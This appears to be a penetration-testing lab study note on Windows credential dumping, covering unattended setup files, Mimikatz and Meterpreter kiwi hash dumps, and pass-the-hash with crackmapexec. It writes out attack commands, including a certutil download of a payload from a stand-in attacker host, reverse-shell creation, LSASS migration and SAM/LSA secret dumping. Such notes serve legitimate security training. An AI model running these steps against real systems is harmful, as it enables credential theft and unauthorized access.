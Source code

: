 ## Windows Credential Dumping
### Windows Password Hash
- hash stored in SAM (security accounts manager)
- LM and NTLM
### Unattended Windows setup
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Autounattend.xml
- create a revershell with msfvenom
- upload it and run then in revershell
- in win: certutil -urlcache -f http://<attcker-ip>/payload.exe payload.exe
- search -f Unattend.xml
- search for password it maybe in Base64 decode it and you get password in plain text
- psexec

### Dumping Hashes With Mimikatz
- namp -sV <target-ip>
- search badblue
- use set run
- sysinfo 
- pgrep lsass
- migrate 788
- NT AUTHORITY/SYSTEM Highest Privileges in Windowds
- load kiwi
- creds_all
- lsa_dump_sam
- lsa_dump_secrets
- cd Temp
- upload /usr/share/window-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
- lsadump::sam lsadump:secrets
- securlsa::logonpasswords

### Pass the Hash Attack
- nmap -sV <target-ip>
- service postgresql start
- search badblue
- use set run
- pgrep lsass
- migrate 
- load kiwi
- lsa_dump_sam
- search psexec
- use set run
- set target command OR Native\ upload
- crackmapexec smb <target-ip> -u <user-id> -H "<NTLM-hash>" OR -p <Plain-text-Password> -x "<command>"
  
